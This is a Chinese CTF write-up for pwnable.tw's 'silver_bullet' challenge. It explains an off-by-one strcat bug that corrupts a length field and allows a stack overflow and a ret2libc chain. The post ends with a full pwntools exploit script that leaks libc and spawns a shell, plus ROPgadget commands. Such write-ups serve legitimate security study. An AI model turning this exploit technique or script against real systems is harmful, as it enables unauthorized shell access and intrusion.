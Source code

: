 ```yaml
---
title: silver_bullet	
date: 2018-04-20 08:37:40
tags: [CTF, PWN]
categories: PWN练习
---
```

# silver_bullet -- 白板off-by-one漏洞利用
​	这道题也是pwnable.tw上的一道200分的选单程序题，题目很有意思是一个打狼人的游戏，创造一把枪然后根据用户输入的长度给枪充能，然后去打死狼人。//md语文水平太烂了，讲句话都讲不好。
选单程序咩，先把逻辑分析清楚，看下各个函数。
<!--more-->
```
int menu()
{
  puts("+++++++++++++++++++++++++++");
  puts("       Silver Bullet       ");
  puts("+++++++++++++++++++++++++++");
  puts(" 1. Create a Silver Bullet ");
  puts(" 2. Power up Silver Bullet ");
  puts(" 3. Beat the Werewolf      ");
  puts(" 4. Return                 ");
  puts("+++++++++++++++++++++++++++");
  return printf("Your choice :");
}
```
​	首先是菜单，显示给用户选项。  
	然后是creatbullet函数，初始化银枪并充能。  
	之后是powerup函数，主要功能是通过将新输入的字符串与初始化时的字符串`strcat`连接起来，并计算新的字符串的长度判断是否超过48，如果超过，就输出无法充能,之后更新银枪能量。  
最后是beat函数，用银枪去打狼人，如果狼人hp为0就退出main函数。  

利用思路：  
	createbullet先输入47个字符进缓冲区,之后进行一次powerup，只输入1个字节，因为输入的是字符串，而且使用的是`'strcat'`函数,所以输入刚好凑齐48字节，最后的`'\0'`会将缓冲区的下一个字节覆盖，通过gdb调试可以发现缓冲区的下面一个字节存放的是字符串长度,`\0`刚好可以将len覆盖，这样我们就能通过powerup函数扩充栈然后构造输入溢出(第二次的powerup能输入47个字节，足够将将ebp后四位覆盖了)并将main函数返回地址覆盖,![return](./return.png)由于这里没有像hacknote那样的任意命令执行，考虑ret2libc，通过覆盖返回地址构造rop链最后执行`system('/bin/sh')`来getshell，![/bin/sh](./shell.png)程序中有printf的plt地址，第一次可以将返回地址构造成printf函数调用的地址，由于这里无法使用栈存放参数，所以利用`pop ebx`指令将参数放进ebx供printf调用，![param](./param.png)然后将返回地址设置为main函数起始地址，之后就是再来一次上面的操作，ret2libc执行system调用getshell。
	嗯呐就是这样啦，网上看了下教程好像说大多数的off-by-one都是用来扩充栈容量然后给攻击者溢出的，反正这次mark啦。还有就是找rop链，有个工具叫ropgadget，还是很好用的(`ROPgadget --binary ./silver_bullet --only 'pop|ret'`用来找pop ebx，ret;`ROPgadget --binary ./libc_32.so.6  --string '/bin/sh'`用来找`/bin/sh`字符串)。  
	嗯呐大体就是这样子的。这算是个白板off-by-one了吧。

exp如下:

```
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']
local = 1
if local:
	#exe = './silver_bullet'
	#cn = gdb.debug(exe,'''
	#	b *0x08048984
	#	continue
	#	''')
	cn = process('./silver_bullet')
	bin = ELF('./silver_bullet')
	libc = ELF('./libc_32.so.6')
else:
	cn = remote('chall.pwnable.tw', 10103)
	bin = ELF('./silver_bullet')
	libc = ELF('./libc_32.so.6')
def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()
def create(con):
	cn.sendline('1')
	cn.recvuntil('of bullet :')
	cn.send(con)
def powerup(con):
	cn.sendline('2')
	cn.recvuntil('of bullet :')
	cn.send(con)
def beat():
	cn.sendline('3')
p1ret=0x08048475
create('a'*(0x30-1))
powerup('b')#power 1
#z('b*0x080488FB\nc')
pay = '\xff'*3 + 'bbbb'
pay+=p32(bin.plt['puts'])+p32(p1ret)+p32(bin.got['read'])
pay+=p32(bin.sym['main'])
#print pay
powerup(pay)
beat()
cn.recvuntil('win !!\n')
leak=u32(cn.recv(4))
print hex(leak)
libc.address = leak-libc.sym['read']         #image  base address
success('libc_base: '+hex(libc.address))
system = libc.sym['system']
binsh = libc.search('/bin/sh\x00').next()
#print '@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@'
#print  hex(binsh)
#print hex(libc2.search('/bin/sh').next()+libc.address)
#print hex(libc2.search('/bin/sh').next())
#print hex(libc.address+int(0x1794d1))
#print '@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@'
#============one more time

create('a'*(0x30-1))
powerup('b')
pay = '\xff'*3 + 'bbbb'

pay+=p32(system)+p32(p1ret)+p32(binsh)
powerup(pay)
beat()
cn.interactive()

```

